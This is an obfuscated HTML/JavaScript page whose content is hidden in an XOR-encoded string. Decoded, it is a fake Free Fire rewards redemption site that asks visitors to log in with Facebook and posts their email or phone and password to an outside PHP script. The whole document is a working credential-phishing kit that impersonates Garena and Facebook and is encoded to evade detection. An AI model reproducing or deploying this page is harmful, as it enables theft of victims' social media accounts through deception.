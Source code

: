 # ff<script language="javascript"> 

var enkripsi="'2C'2C'1A'03FMAV[RG'02jvon'1G'2C'1Ajvon'02fcvc/`wknf/vkogqvcor/wva'1F'000203/26/24V2:'1C07'1C13,07:X'00'02ncle'1F'00gl'00'1G'2C'02'02'02'1Ajgcf'1G'2C'02'02'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00amlvglv/v{rg'00'02amlvglv'1F'00vgzv-jvon'1@'02ajcpqgv'1FWVD/:'00'1G'2C'02'02'02'02'02'02'1Aogvc'02ajcpqgv'1F'00wvd/:'00'1G'2C'02'02'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00Z/WC/Amorcvk`ng'00'02amlvglv'1F'00KG'1Fgfeg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00z/flq/rpgdgvaj/amlvpmn'00'02amlvglv'1F'00ml'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00tkgurmpv'00'02amlvglv'1F'00ukfvj'1Ffgtkag/ukfvj'0Aklkvkcn/qacng'1F3'0Atkgurmpv/dkv'1Famtgp'00'1G'2C'02'02'02'02'02'02'1Avkvng'1GDpgg'02Dkpg'1A-vkvng'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00flq/rpgdgvaj'00'02jpgd'1F'00jvvrq'1C--rpmf/crk,pgucpf,dd,ecpglc,amo-'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00kaml'00'02jpgd'1F'00jvvrq'1C--dpggdkpgom`kng/c,cicockjf,lgv-ddug`qkvg-kocegq-dpggdkpg10/0,kam'00'02v{rg'1F'00koceg-z/kaml'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00qjmpvawv'02kaml'00'02jpgd'1F'00jvvrq'1C--dpggdkpgom`kng/c,cicockjf,lgv-ddug`qkvg-kocegq-dpggdkpg34/0,kam'00'02v{rg'1F'00koceg-z/kaml'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00fgqapkrvkml'00'02amlvglv'1F'00'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00cwvjmp'00'02amlvglv'1F'00'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00vkvng'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00fgqapkrvkml'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02rpmrgpv{'1F'00me'1Cvkvng'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02rpmrgpv{'1F'00me'1Cfgqapkrvkml'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'2C'02'02'02'02'02'02'1Ankli'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-ockl,aqq'00'02pgn'1F'00qv{ngqjggv'00'1G'2C'2;'02'02'1Ankli'02pgn'1F'00qv{ngqjggv'00'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-qv{ng,aqq'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00qv{ngqjggv'00'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-dcag`mmi,aqq'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00qv{ngqjggv'00'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-vukvvgp,aqq'00'1G'2C'02'02'02'1A-jgcf'1G'2C'02'02'02'1A`mf{'1G'2C'02'02'02'02'02'02'1Afkt'02kf'1F'00crr'00'1G'2C'1Afkt'02qv{ng'1F'00fkpgavkml'1Cnvp'02'03kormpvclv'1@'00'02ancqq'1F'00ockl'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/upcrrgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/`caiepmwlf'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/amlvcklgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/65`c302d'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jgcfgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/65`c302d'1F'00'00'02ancqq'1F'00jgcfgp/amlvglv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/65`c302d'1F'00'00'02ancqq'1F'00jgcfgp]]nmem'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog]]pkejv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/4a7f;0;5'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00ockl'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl/jgcfgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aj0'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl]]vkvng'00'1GPgucpfq'02Pgfgorvkml'02Qkvg'1A-j0'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aqrcl'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl]]fgqapkrvkml'00'1GRngcqg'02nme'02kl,'1A-qrcl'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl]]nmekl'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00d`Nmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-g10:c:7dcd1ga7;7g707:42a;:g162;:,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00d`Nmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-c71`d0054cc:36c2271fg3g`06f6:`3`,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00vukvNmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-dcf172c`3`154f4g41d6g02::2`5536f,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-1d`73:`5a7::3cf4cg`4a4dfc:5405g;,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-f50:07g54c;:3751g:22a`1;:1`dd0:5,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00vukvNmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-dca045f741d;61f227c`f0c23f025546,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/0aggaf3g'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/rclgn'02jmog]]rclgn'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aj6'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00jmog/rclgn]]vkvng'00'1GKormpvclv'02Lmvkag'1C'1A-j6'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Amn'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00nkqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'023,'02Pgfgorvkml'02amfg'02jcq'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G30'1A-qrcl'1G'02ajcpcavgpq'0A'02amlqkqvkle'02md'02acrkvcn'02ngvvgpq'02clf'02lwo`gpq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'020,'02Kvgo'02pgucpfq'02cpg'02qjmul'02kl'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G'02'7@tcwnv'7F'02'1A-qrcl'1G'02vc`'02kl'02ecog'02nm``{'1@'02Emnfq'02mp'02fkcomlfq'02uknn'02cff'02kl'02caamwlv'02ucnngv'02cwvmocvkacnn{,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G1,'02Rngcqg'02lmvg'02pgfgorvkml'02gzrkpcvkml'02fcvg,'02Cl{'02gzrkpgf'02amfgq'02acllmv'02`g'02pgfggogf,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G6,'02Rngcqg'02amlvcav'02awqvmogp'02qgptkag'02kd'02{mw'02glamwlvgpgf'02cl{'02kqqwg,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G7,'02Pgoklfgp'1C'02{mw'02uknn'02lmv'02`g'02c`ng'02vm'02pgfggo'02{mwp'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02pgucpfq'02ukvj'02ewgqv'02caamwlvq,'02[mw'02oc{'02`klf'02{mwp'02caamwlv'02vm'02Dcag`mmi'02mp'02TI'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02kl'02mpfgp'02vm'02pgagktg'02vjg'02pgucpfq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-mn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Admmvgp'02fcvc/t/6`1f70:2'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00dmmvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00dmmvgp/pwng'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/0aggaf3g'1F'00'00'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00jmog/rclgn'02dmmvgp/pwng]]rclgn'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aj6'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00jmog/rclgn]]vkvng'00'1GKormpvclv'02Lmvkag'1C'1A-j6'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Amn'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00nkqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'023,'02Pgfgorvkml'02amfg'02jcq'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G30'1A-qrcl'1G'02ajcpcavgpq'0A'02amlqkqvkle'02md'02acrkvcn'02ngvvgpq'02clf'02lwo`gpq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'020,'02Kvgo'02pgucpfq'02cpg'02qjmul'02kl'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G'02'7@tcwnv'7F'02'1A-qrcl'1G'02vc`'02kl'02ecog'02nm``{'1@'02Emnfq'02mp'02fkcomlfq'02uknn'02cff'02kl'02caamwlv'02ucnngv'02cwvmocvkacnn{,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G1,'02Rngcqg'02lmvg'02pgfgorvkml'02gzrkpcvkml'02fcvg,'02Cl{'02gzrkpgf'02amfgq'02acllmv'02`g'02pgfggogf,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G6,'02Rngcqg'02amlvcav'02awqvmogp'02qgptkag'02kd'02{mw'02glamwlvgpgf'02cl{'02kqqwg,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G7,'02Pgoklfgp'1C'02{mw'02uknn'02lmv'02`g'02c`ng'02vm'02pgfggo'02{mwp'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02pgucpfq'02ukvj'02ewgqv'02caamwlvq,'02[mw'02oc{'02`klf'02{mwp'02caamwlv'02vm'02Dcag`mmi'02mp'02TI'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02kl'02mpfgp'02vm'02pgagktg'02vjg'02pgucpfq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-mn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aqrcl'02fcvc/t/6`1f70:2'1F'00'00'1GKormpvclv'02Lmvkag'1C'1A-qrcl'1G'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00dmmvgp/pwng]]kaml'02koceg/amlvcklgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00fcvc'1Ckoceg-rle'1@`cqg46'0AkT@MPu2IEemCCCCLQWjGWeCCC@KCCCCQAC[CCC@Uxm7ZCCC@kGnGSTS6hcUWV2qASPhEd5wnjAPUi@IrA@0WRi@7I7Vu0OZs3IG-PCTf41LKSvCnsDv24PXDWZQHRi@3AWKhs[OPfkjDklg`jfT0uws75Ou5x-LhX0`dLdr5-`em@W{rX3SvD6CV[@a6`m62ezNC@hFsPldmDDeA`w{Q4TeaCQ7`eIC:n{pVCHK10Sfa;4oPZ0WQLqeCvmACox:X;7DO)JQueOmcCisNZudHN6dHN6[Xhovjii2NcLHvv`wxhfTqALOC26Q3kc@T20hQTDd:F`I7GkGU:lF1UMRwsWmq4NTsEnjIS@G1{GAdn;vQn`naedna2PrNVSMNAMjf@3n[N-N:UsfasTthl0CAgpCldV2gSn1vFP@`OpXj6jEtS-d{XU:F21XvOLr@sTzpeFPtZQ@ZjVflgWfCEg@Cfz2vIkL`MuSw-eEP5HECRmCX6MWRGOlOAqRwLglkacF{A6j6HZOvG0d1luDFNU7VRMIThAU1J7q2:PkSTZ2mJ0uTICNluH4akVsQNuEddhDuv{)RTq:CCCCCQWTMPI7A[KK'1F'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00amr{pkejv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00kaml'02koceg/amlvcklgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-a1621:gfad63:7`1g57c4`:7d3af1f6d,hre'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00amr{pkejv/ogqqceg'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ar'02fcvc/t/6`1f70:2'1F'00'00'1GAmr{pkejv'02'C;'02Ecpglc'02Klvgplcvkmlcn,'1A-r'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ar'02fcvc/t/6`1f70:2'1F'00'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02Vpcfgocpiq'02`gnmle'02vm'02vjgkp'02pgqrgavktg'02mulgpq,'02Cnn'02pkejvq'02Pgqgptgf,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-r'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-dmmvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'1A'03////'1G'02'1A'03////'1G'2C'2;'2;'02'2C'2;'2;'02'2C'2;'2;'02'2C'2;'2;'02'1Afkt'02ancqq'1F'00rmrwr/nmekl'02dcag`mmi'02clkocvgf'02dcfgKl'00'02qv{ng'1F'00fkqrnc{'1C'02lmlg'1@'00'1G'2C'02'02'02'02'1Afkt'02ancqq'1F'00rmrwr/`mz/nmekl/d`'00'02'1G'2C'02'02'02'02'02'02'02'02'1Ac'02mlankai'1F'00anmqgd`'0:'0;'00'02ancqq'1F'00anmqg/d`'00'1G'1Ak'02ancqq'1F'00xofk'02xofk/anmqg'00'1GZ'1A-k'1G'1A-c'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00lct`cp/d`'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00jvvrq'1C--dkngq,qkvg/dwqkml,am,wi-ug`dwqkml32603-koceg-02322:13]dcag`mmi/nmem,rle'00'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00amlvglv/`mz/d`'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00jvvrq'1C--nj1,emmengwqgpamlvglv,amo-cirnAo{EjaIZ{Qh]a/MFqi`lnxNFu`alV2uCHTn1Do0UCI2uN7U[WV3/pu/K4KcF[Me'00'02ukfvj'1F'0072'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/nmekl/d`'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02Nme'02kl'02vm'02{mwp'02Dcag`mmi'02caamwlv'02vm'02amllgav'02vm'02DpggDkpg'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Admpo'02ancqq'1F'00nmekl/dmpo'00'02cavkml'1F'00jvvrq'1C--pctkpcn,amo-i]dca,rjr'00'02ogvjmf'1F'00rmqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00vgzv'00'02lcog'1F'00gockn'00'02ancqq'1F'00klrwvD`'00'02rncagjmnfgp'1F'00Om`kng'02lwo`gp'02mp'02gockn'02cffpgqq'00'02cwvmamorngvg'1F'00mdd'00'02cwvmacrkvcnkxg'1F'00mdd'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00rcqqumpf'00'02ancqq'1F'00klrwvD`'00'02lcog'1F'00rcqq'00'02rncagjmnfgp'1F'00Rcqqumpf'00'02cwvmamorngvg'1F'00mdd'0